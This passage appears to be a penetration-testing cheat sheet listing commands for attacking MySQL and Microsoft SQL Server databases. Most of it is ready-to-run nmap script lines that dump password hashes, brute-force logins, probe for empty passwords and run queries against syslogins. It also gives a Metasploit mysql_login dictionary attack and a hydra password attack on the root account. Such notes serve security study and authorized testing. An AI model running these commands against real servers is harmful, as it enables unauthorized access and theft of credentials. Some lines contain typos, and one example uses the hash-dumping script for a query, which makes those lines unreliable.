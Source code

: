 <o>--script=mysql-audit</o>
+ audit the setup
+ Example: `nmap IP -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nselib/data/mysql-cis.audit"`

<o>--script=mysql-dump_hashes</o>
+ dump hashes
+ Example: `nmap IP -p 3306 --script=mysql-dump_hashes --script-args="username='root',password=''"`

<o>--script=mysql-query</o>
+ make a query
+ Example: `nmap IP -p 3306 --script=mysql-dump_hashes --script-args="query='select count(*) from books.authors;',username='root',password=''"`

### MySQL Dictionary Attack ###

<r>msfconcole</r>
+ <g>mysql_login</g>
  + `use scanner/mysql/mysql_login`
    + `set rhosts IP`
    + `set pass_file /usr/share/metasploit-framwork/data/wordlists/unix_passwords.txt`
    + `set stop_on_success true`
    + `set verbose false`
    + `set username root`

<pu>hydra</pu>
+ example: `hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt IP mysql`

### MSSQL (Microsoft) Nmap Script ###

<o>--script ms-sql-info</o>
+ Will get info like services, patches, name, etc
+ Example: `nmap IP -p 1433 --script ms-sql-info`

<o>--script ms-sql-ntlm-info</o>
+ Will get info names and NetBIOS names
+ Example: `nmap IP -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433`

<o>--script ms-sql-brute</o>
+ Will run a brute force
+ Example: `nmap IP -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,userdb=/root/Desktop/wordlist/100-common_passwords.txt`

<o>--script ms-sql-empty-password</o>
+ Will look for empty passwords
+ Example: `nmap IP -p 1433 --script ms-sql-empty-password`

<o>--script ms-sql-query</o>
+ Can run a query
+ Example: `nmap IP -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN ouput.txt`
  + will do the described query and push it into a text file

<o>--script ms-sql-dump-hashes</o>
+ Will dump hases for users
+ Example: `nmap IP -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria`
